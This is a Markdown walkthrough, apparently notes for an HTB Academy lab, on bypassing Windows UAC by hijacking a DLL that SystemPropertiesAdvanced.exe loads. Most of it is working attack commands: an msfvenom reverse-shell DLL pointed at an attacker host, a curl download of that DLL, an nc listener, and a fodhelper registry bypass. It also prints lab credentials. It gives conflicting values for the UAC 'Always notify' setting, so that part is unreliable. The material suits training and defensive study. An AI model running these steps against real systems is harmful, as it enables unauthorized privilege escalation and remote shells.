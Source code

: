 # User Account Control (UAC) Bypass

## 🎯 Overview

**User Account Control (UAC)** provides consent prompts for elevated activities but is **not a security boundary**. With **Admin Approval Mode (AAM)**, admin users receive **two tokens** - standard and privileged. UAC bypasses exploit **auto-elevating binaries** and **DLL hijacking** to gain elevated privileges without prompts.

## 🔑 UAC Fundamentals

### Admin Approval Mode (AAM)
```cmd
# Standard user token (default context)
whoami /priv

# Limited privileges:
SeShutdownPrivilege           Disabled
SeChangeNotifyPrivilege       Enabled
SeUndockPrivilege             Disabled
```

### UAC Configuration Check
```cmd
# Check if UAC is enabled
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
# EnableLUA    REG_DWORD    0x1 (Enabled)

# Check UAC level
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
# 0x5 = Always notify (highest level)
# 0x2 = Prompt for consent for non-Windows binaries
# 0x0 = Elevate without prompting
```

## 🔧 DLL Hijacking Technique (UACME #54)

### Windows Build Assessment
```powershell
# Check Windows version
[environment]::OSVersion.Version

# Target: Windows 10 build 14393+ (Version 1607)
Major  Minor  Build  Revision
10     0      14393  0
```

### DLL Search Order Exploitation
```cmd
# Examine PATH variable
cmd /c echo %PATH%

# Key target: User-writable WindowsApps folder
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\
```

### Target Binary Analysis
```cmd
# SystemPropertiesAdvanced.exe (32-bit) auto-elevates
# Missing DLL: srrstr.dll (System Restore functionality)
# Search order: App directory → System32 → Windows → PATH
```

## 🚀 Exploitation Process

### 1. Generate Malicious DLL
```bash
# Create reverse shell DLL
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACK_IP LPORT=8443 -f dll > srrstr.dll

# Host DLL via HTTP server
sudo python3 -m http.server 8080
```

### 2. Deploy DLL to Target
```powershell
# Download to user-writable PATH location
curl http://ATTACK_IP:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

### 3. Test Standard Execution
```cmd
# Test with rundll32 (standard privileges)
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll

# Expected result: Normal user privileges
```

### 4. UAC Bypass Execution
```cmd
# Clean up rundll32 processes first
tasklist /svc | findstr "rundll32"
taskkill /PID [PID] /F

# Execute 32-bit SystemPropertiesAdvanced.exe
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `sarah:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **User Context**: Local administrator with UAC enabled
- **Flag Location**: Desktop of sarah user

### Complete Walkthrough
```bash
# 1. Set up attack infrastructure
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
sudo python3 -m http.server 8080
nc -lvnp 8443

# 2. RDP to target and download DLL
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

# 3. Test standard execution (limited privileges)
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll

# 4. Clean processes and execute UAC bypass
taskkill /PID [rundll32_PID] /F
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe

# 5. Verify elevated privileges in reverse shell
whoami /priv
# Should show extensive admin privileges:
# SeDebugPrivilege, SeBackupPrivilege, SeRestorePrivilege, etc.

# 6. Access flag
type C:\Users\sarah\Desktop\flag.txt
```

## 🔄 Alternative UAC Bypasses

### UACME Project Techniques
```cmd
# Popular techniques by Windows version:
- Technique #23: perfmon.exe + mmc.exe (Win 7-10)
- Technique #33: fodhelper.exe (Win 10)
- Technique #43: computerdefaults.exe (Win 10)
- Technique #54: SystemPropertiesAdvanced.exe (Win 10 14393+)
```

### Registry-Based Bypasses
```cmd
# fodhelper.exe bypass (Technique #33)
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /f
fodhelper.exe
```

## ⚠️ Detection & Defense

### Detection Indicators
```cmd
# Monitor for:
- Unusual DLL loads from user-writable paths
- Auto-elevating binary executions
- Registry modifications in HKCU\Software\Classes
- Process creation with elevation without UAC prompt
```

### Defensive Measures
```cmd
# Security configurations:
- Set UAC to "Always notify" (ConsentPromptBehaviorAdmin = 0x2)
- Monitor auto-elevating binaries
- Implement Application Control policies
- Restrict user PATH modifications
```

## 💡 Key Takeaways

1. **UAC is not a security boundary** - convenience feature only
2. **Admin Approval Mode** creates dual-token scenario
3. **Auto-elevating binaries** can be exploited via DLL hijacking
4. **PATH manipulation** enables user-controlled DLL loading
5. **Multiple bypass techniques** exist for different Windows versions

---

*UAC bypasses exploit design flaws in auto-elevating mechanisms, enabling privilege escalation without user consent prompts.* 
